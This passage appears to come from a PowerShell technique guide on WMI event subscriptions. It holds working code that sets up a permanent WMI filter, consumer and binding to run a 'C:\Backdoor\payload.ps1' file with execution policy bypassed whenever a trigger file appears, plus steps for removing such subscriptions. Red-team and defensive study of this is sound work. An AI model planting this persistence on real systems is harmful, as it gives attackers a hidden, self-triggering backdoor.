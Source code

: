 #### Persist via File Creation Event
This example triggers the execution of a payload when a specific file (`trigger.txt`) is created in a specified directory.
```powershell
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "FileCreationFilter"; 
    QueryLanguage = "WQL"; 
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'CIM_DataFile' AND TargetInstance.Name = 'C:\\path\\to\\trigger.txt'"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "FileConsumer"; 
    CommandLineTemplate = "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Backdoor\payload.ps1"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter; 
    Consumer = $consumer
}
```

## Removing WMI Event Subscriptions

To remove a WMI event subscription, you need to delete the specific filter, consumer, and filter-to-consumer binding.

#### Remove WMI Event Filter
To remove a filter, locate its name and delete it:
```powershell
$filter = Get-WmiObject -Namespace "root\subscription" -Class __EventFilter | Where-Object { $_.Name -eq "ProcessFilter" }
$filter.Delete()
```

#### Remove WMI Event Consumer
Similarly, find and delete the event consumer:
```powershell
$consumer = Get-WmiObject -Namespace "root\subscription" -Class CommandLineEventConsumer | Where-Object { $_.Name -eq "ProcessConsumer" }
$consumer.Delete()
```

#### Remove Filter to Consumer Binding
Finally, remove the binding between the filter and the consumer:
```powershell
$binding = Get-WmiObject -Namespace "root\subscription" -Class __FilterToConsumerBinding | Where-Object { $_.Filter -like "*ProcessFilter*" }
$binding.Delete()
```
